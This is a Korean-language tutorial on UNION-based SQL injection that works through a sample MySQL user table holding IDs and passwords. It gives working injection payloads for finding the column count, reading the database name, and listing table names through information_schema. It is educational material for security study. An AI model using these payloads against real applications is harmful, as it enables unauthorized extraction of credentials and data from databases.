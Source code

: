 # UNION sql injection 

__예시 mysql 환경__

```sql
database name -> user

table name -> UserDB

columns -> id, pw

mysql[user]>SELECT * FROM UserDB;

+-------+------------+
| id    | pw         |
+-------+------------+
| admin | passwd     |
| guest | aaa        |
| aaaaa | a          |
+-------+------------+

```

__예시 id 검색__

```sql
SELECT * FROM UserDB WHERE id='';
```


### UNION sql injection 이란?

데이터 베이스에 우리가 입력한 임의의 값으로 요청한다면 해당 임의의 값을 조작하여 UNION 연산자를 이용해 정보를 빼오는 기법이다.

__예시__

```sql
SELECT * FROM UserDB WHERE id='';
```

해당 sql query로 id Column에 값을 입력받는다면

UNION Sql injection 공격을 통해

```sql
SELECT * FROM UserDB WHERE id='' union select 1 --'';
```

이런식으로 union select (원하는 출력값) 이런 형식으로 요청을 하여 데이터 정보를 노출시킨다.

__UNION 연산자는 앞에 써져있는 쿼리의 컬럼 개수와 일정해야지 출력이 가능하다.__

만약에

```sql
SELECT id FROM UserDB id='' union select 1,2 --'';
```

union는 출력되는 컬럼 개수가 같아야지만 사용 가능하다.

하지만 위의 쿼리처럼 처음 select 에서는 id 즉 하나의 열만 출력하는데 
union select에서는 1,2를 출력하면서 2개의 행을 출력하게 되버린다.

근데 union 연산자는 행이 같아야지만 가능하기때문에 에러를 뱉을것이다.

위의 쿼리에서 union을 이용하기 위해서는

```sql
SELECT id FROM UserDB id='' union select 1 --''; 
```

이처럼 열의 개수에 따라 union 연산자를 만족시켜야된다.



### UNION Sql injection Columns Number

__union sql injection를 이용하여 컬럼 개수를 찾이 위해서는__

```sql
SELECT * FROM UserDB WHERE id='' union select 1 --'';

SELECT * FROM UserDB WHERE id='' union select 1,2 --'';

SELECT * FROM UserDB WHERE id='' union select 1,2,3 --'';

SELECT * FROM UserDB WHERE id='' union select 1,2,3,4 --'';

SELECT * FROM UserDB WHERE id='' union select 1,2,3,4,5 --'';

SELECT * FROM UserDB WHERE id='' union select 1,2,3,4,5,6 --'';
```

이처럼 무차별로 대입을 하여 해당 쿼리에서 출력할려는 컬럼 개수가 몇개있는지 유추함으로서 원하는 정보를 빼네올 수 있다.

### UNION Sql injection GET DATABASE Name

해당 쿼리로 id 를 검색한다면

```sql
SELECT * FROM UserDB WHERE id='' UNION SELECT database(),2 --'';
```

이런식으로 database() 함수를 이용하여 데이터가 바로 노출시킬 수 있다.

### UNION Sql injection GET TABLE Name

```sql
SELECT * FROM UserDB WHERE id='' UNION SELECT (SELECT table_name FROM information_schema.tables WHERE table_schema='DATABASE NAME' limit 0,1),2 --'';
```

위처럼 DATABASE NAME 부분에 TABLE NAME을 얻고싶은 데이터베이스 이름을 넣으면 된다.

모든 테이블 이름을 얻고 싶다면 limit 0,1 을 

```sql
limit 1,1 
limit 2,1
limit 3,1
limit 4,1....
```

이런식으로 원하는 열의 테이블을 뽑아올 수 있다.